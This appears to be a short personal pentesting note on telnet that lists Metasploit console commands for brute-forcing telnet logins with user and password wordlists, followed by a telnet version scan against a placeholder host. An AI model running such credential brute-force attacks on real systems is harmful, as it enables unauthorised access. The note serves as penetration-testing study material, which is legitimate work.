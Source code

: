 
---
tags: 🔻 🔻/Enumeration/telnet metasploit
aliases: Hacking Notes
---
# Telnet

telnet bruteforce
2. 
use auxiliary/scanner/telnet/telnet\_login  
msf auxiliary(telnet\_login) > set BLANK\_PASSWORDS false  
BLANK\_PASSWORDS => false  
msf auxiliary(telnet\_login) > set PASS\_FILE passwords.txt  
PASS\_FILE => passwords.txt  
msf auxiliary(telnet\_login) > set RHOSTS x.x.x.x  
RHOSTS => x.x.x.x  
msf auxiliary(telnet\_login) > set THREADS 254  
THREADS => 254  
msf auxiliary(telnet\_login) > set USER\_FILE users.txt  
USER\_FILE => users.txt  
msf auxiliary(telnet\_login) > set VERBOSE false  
VERBOSE => false  
msf auxiliary(telnet\_login) > run  
  
msf auxiliary(telnet\_login) > sessions -l // to see the sessions that succeded  
  
2. telnet version  

use auxiliary/scanner/telnet/telnet\_version  
msf auxiliary(telnet\_version) > set RHOSTS x.x.x.x  
RHOSTS => x.x.x.x  
msf auxiliary(telnet\_version) > set THREADS 254  
THREADS => 254  
msf auxiliary(telnet\_version) > run